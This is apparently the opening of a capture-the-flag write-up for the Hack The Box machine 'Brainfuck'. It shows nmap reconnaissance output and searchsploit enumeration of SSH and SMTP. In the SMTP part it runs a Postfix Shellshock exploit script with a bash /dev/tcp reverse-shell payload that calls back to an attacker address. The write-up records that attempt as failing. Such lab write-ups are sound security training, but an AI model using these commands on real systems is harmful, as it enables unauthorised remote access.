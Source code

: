 #WP-Support-Plus #SMTP #VIgenere #Cipher #RSA #Lxd

# Reconnaissance
```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.17 --type All
```

```txt
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA USER AUTH-RESP-CODE RESP-CODES TOP SASL(PLAIN) UIDL
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: ID listed more OK LITERAL+ post-login SASL-IR LOGIN-REFERRALS IMAP4rev1 have Pre-login ENABLE capabilities AUTH=PLAINA0001 IDLE
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_http-title: Welcome to nginx!
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.10.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
# Enumeration
## Enumerate on 22 SSH
```bash
searchsploit OpenSSH 7.2p2
# No useful exploit 
```
## Enumerate on 25 SMTP
```bash
searchsploit Postfix
# Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection
# | linux/remote/34896.py
searchsploit -x 34896
searchsploit -m 34896
chmod +x 34896.py
python2 34896.py 10.10.10.17 whoami
python2 34896.py 10.10.10.17 "0<&196;exec 196<>/dev/tcp/10.10.14.3/443; cmd <&196 >&196 2>&196" 
# No meaningful result
```

